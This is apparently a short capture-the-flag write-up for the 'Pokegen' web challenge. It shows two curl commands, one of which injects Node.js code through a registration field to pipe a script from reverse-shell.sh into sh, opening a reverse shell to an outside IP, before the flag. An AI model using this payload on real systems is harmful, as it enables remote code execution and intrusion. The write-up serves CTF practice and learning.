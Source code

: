 ## Pokegen (200 points)

#### Solved by hieplpvip

```
Just a simple website for pokemon lover. Enjoy!

https://mega.nz/folder/SGwyVRCB#3ZnNM0eSvtDeVyplfMnDiQ

61.28.237.24:30106

Author: em0n
```

```shell
curl -d "username=hieplpvip&password=123456&pretty=');process.mainModule.constructor._load('child_process').exec('curl https://reverse-shell.sh/172.104.182.85:8102 | sh');_=('" -X POST http://61.28.237.24:30106/register
curl -d "username=hieplpvip&password=123456" -X POST http://61.28.237.24:30106/login
```

**Flag:** `HCMUS-CTF{s3cure_Issu3_on_G1thUb_https://github.com/pugjs/pug/issues/3312}`

